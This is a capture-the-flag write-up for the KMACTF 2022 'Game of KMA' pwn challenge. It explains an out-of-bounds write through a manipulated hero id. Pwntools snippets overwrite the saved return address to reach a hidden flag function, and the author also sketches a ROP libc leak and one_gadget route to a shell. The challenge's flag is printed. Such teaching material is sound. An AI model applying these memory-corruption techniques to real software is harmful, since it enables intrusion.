# KMACTF III/2022 - Game of KMA

You can download challenge file in my repo: [gameofkma.zip](gameofkma.zip)

There will be 2 file in zip:
- gameofkma
- libc-2.27.so

Originally, the author intended not to give libc, just binary itself and this make the challenge impossible to solve for some players like me when I use parrot, because the leak address when creating monsters is libc, not binary as server.

Luckily, the server provide a libc whose version is wrong with server, but it works as the correct libc, which means it still leak the address of binary as the server does so solving this chall is possible now. But after I got file, I solved this chall with an unintended way and I got the correct libc and I will include it in the zip for you guys.

You can download, extract the zip and patch libc with `pwninit`, then let's get started!

# 1. Find bug

At first, it will ask us to enter the number of troopers, monsters and heros, then create the number of things corresponding. By reading decompiler, we can redefine structures for trooper, monster and hero as following:

```c
struct TrooperStruct
{
	char name[8];    // 8 bytes
	int damn;        // 4 bytes
	int health;      // 4 bytes
}

struct MonsterStruct
{
	char *name;       // 8 bytes
	int damn;         // 4 bytes
	int bonusdamn;    // 4 bytes
	int health;       // 4 bytes
	char padding[4];      // 4 bytes
}

struct HeroStruct
{
	int id;             // 4 bytes
	char name[0x10];    // 16 bytes
	int damn;           // 4 bytes
	int specialdamn;    // 4 bytes
	int health;         // 4 bytes
}
```

When we run the file, we can see some address leaked when we create monster:



In IDA, we can see that it print the value and address of the 10th argument of main:



With the correct libc, this leak address is binary address. After creation, we start the game.

The logic of game is simple:
- Attack monster --> Hero will be attacked by monster, monster will be attacked by hero and trooper.
- Attack trooper --> Hero will be attacked by monster, monster will be attacked by hero and trooper (if still alive), trooper will be attacked by hero.
- Do nothing --> Hero will be attacked by monster, monster will be attacked by trooper
- If all monters are killed, subtract hero.id with -2 and return 1 (win)


- If one trooper is killed (by hero absolutely), add hero.id with 4



- If all heros die, return 0 (lose)



Because the program run srand() with specific value so we can get the same random value as binary to win the game easily just by doing the same thing as binary does.

After playing the game and if we win, the hero's name will be added to the fame table at corresponding id of hero. But wait, as we've analized, the id of hero will be changed just in case we kill trooper or when we win the game. That means we can control id of hero to make it point to id of another hero and change that hero's id to the correct id so that fame[hero.id] point to saved rip:



So we have **Out-Of-Bound** bug here. Continue analyzing and we found a function to get flag:



Strangely, this function is not visible and cannot be decompiled in IDA freeware. Anyway, let's move on!

# 2. Idea

With the **Out-Of-Bound** bug, we can make `fame[hero.id]` point to saved rip and overwrite saved rip with the function get flag to obtain the flag.

Summary:
- Stage 1: Leak exe address
- Stage 2: Get flag

# 3. Exploit

### Stage 1: Leak exe address

Just a simple stuff for this stage:

```python
p.sendlineafter(b'(0-5)', b'5')
p.sendlineafter(b'(0-2)\n', b'2')

exe_leak = u64(p.recvline()[:-1] + b'\x00\x00')
exe.address = exe_leak - 0x1e8a
log.info("Exe base: " + hex(exe.address))
```

### Stage 2: Get flag

To get the random number with the specific seed `0x1337` in python, we can use cpython to load the libc and run all the functions as in c:

```python
from ctypes import*
glibc = cdll.LoadLibrary('./libc-2.31.so')
glibc.srand(0x1337)
```

Next, we create name for hero just as usual and will check again when we win the game:

```python
p.sendlineafter(b'(0-2)\n', b'2')

p.sendafter(b'hero?\n', b'0'*0x10)
p.sendafter(b'hero?\n', b'1'*0x10)

for i in range(7):
    print(p.recvuntil(b'(1/0)\n').decode())
    p.sendline(b'1')
    p.sendlineafter(b'> ', str(glibc.rand() % 2022).encode())
```

Set breakpoint at `0x555555556337` when run script with parameter `NOASLR` to see how `hero.id` works. Notice here is that id of the first hero is `0xfffffffe` when win the game because `0 - 2 = 0xfffffffe` with `0` is id of first hero, `-2` is because we win the game.

When debug, we know the address of fame is at `0x007fffffffdcf0`:



But one fame takes `16` byte, so `fame[-2]` will point at the id of second hero because `fame - 32` is our second hero:



And the program will copy name of first hero, 16 bytes of `0` to the second hero and overwrite the id of second hero with `0`, which means we can change the id of second hero to the number we want and to make `fame[hero[1].id]` point to the desired address, in this case is saved rip. We will change a bit in name of first hero as follows:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(0xdeadbeef) + b'0'*0xc
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```

Let's see what number we should put here. The stack address contains saved rip is `0x007fffffffde18` and stack address of fame is `0x007fffffffdcf0`. Because each fame is 16 byte so we cannot make `fame[hero[1].id]` point to `0x007fffffffde18` directly but we can make it point to `0x007fffffffde10` and change data of both `0x007fffffffde10` and `0x007fffffffde18`. A simple calculation can be done as follows:

```python
>>> (0x007fffffffde10 - 0x007fffffffdcf0)/0x10
18.0
```

So we will want id of second hero is `18`. The update payload will be as following:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18) + b'0'*0xc
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```

But one problem here is that it overwrite not only the id of hero but also 12 bytes name of the second hero, which will be use to overwrite the saved rbp and saved rip. So we need to set the last 12 bytes of the name of the first hero to the address we want so that when the name of first hero overwrite first 12 byte name of second hero, it create a complete address of get flag:



The 2 highlighted addresses will be overwriten and the next 4 bytes of those 2 addresses are the last 4-byte name of second hero. When it copy name of second hero, it will copy first 8 byte of that name to the saved rbp and last 8 bytes to the saved rip. Therefore, in payload for first hero, we will input 8 byte null for saved rbp and first 4 bytes of address of get flag:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18)
payload += p64(0)                           # Saved rbp
payload += p64(exe.address + 0x1d6d)[:4]    # Saved rip
p.sendafter(b'hero?\n', payload)
p.sendafter(b'hero?\n', b'1'*0x10)
```

When we check again, we can see that the first 12 bytes of name of second hero is overwriten:



The last 4 byte of name of second hero is still in there so let's change that last 4 bytes of second name to last 4 bytes of get flag address:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18)
payload += p64(0)                           # Saved rbp
payload += p64(exe.address + 0x1d6d)[:4]    # Saved rip
p.sendafter(b'hero?\n', payload)
payload = b'1'*0xc + p64(exe.address + 0x1d6d)[4:]
p.sendafter(b'hero?\n', payload)
```

Check again and we can see the address is correct now:



Let it overwrite the saved rip and check if we have done or not:



Nice! Let's stop at `ret` of main and see if we can open, read and print the flag out:



Ops! We get segfault at printf with the instruction has register xmm0. This register require stack to be aligned but in this case, our stack, rsp, has byte ended with 0x08. We need to set the end byte of stack to 0x00, 0x10, 0x20,... so that we won't get this error again. We just simply jump at the instruction `mov rbp, rsp` of get flag, right after `push rbp`, so that stack will be aligned now:

```python
p.sendlineafter(b'(0-2)\n', b'2')

payload = p32(18)
payload += p64(0)                           # Saved rbp
payload += p64(exe.address + 0x1d72)[:4]    # Saved rip
p.sendafter(b'hero?\n', payload)
payload = b'1'*0xc + p64(exe.address + 0x1d72)[4:]
p.sendafter(b'hero?\n', payload)
```

And we get flag now (but just local, dunno what's wrong with server).

However, I solved this chall with an unintended way. By creating few more hero, I can overwrite saved rip with 3 or 4 more addresses. 

With the first main, we cannot leak libc address immediately so we make it jump back to main again. In the second main, we are able to overwrite 4 addresses to saved rip, so I will craft a payload `pop rdi`, `puts@got`, `puts@plt` for printing the address out and `main` to jump back to main again. In the 3rd main, just simply overwrite saved rip with one_gadget and get shell.

Script intended (not work, cannot read flag): [solve_1.py](solve_1.py)

Script unintended (works well): [solve_2.py](solve_2.py)

# 4. Get flag



Flag is `KMACTF{H0w_d0_y0u_f33l_4bout_th1s_g4m3?}`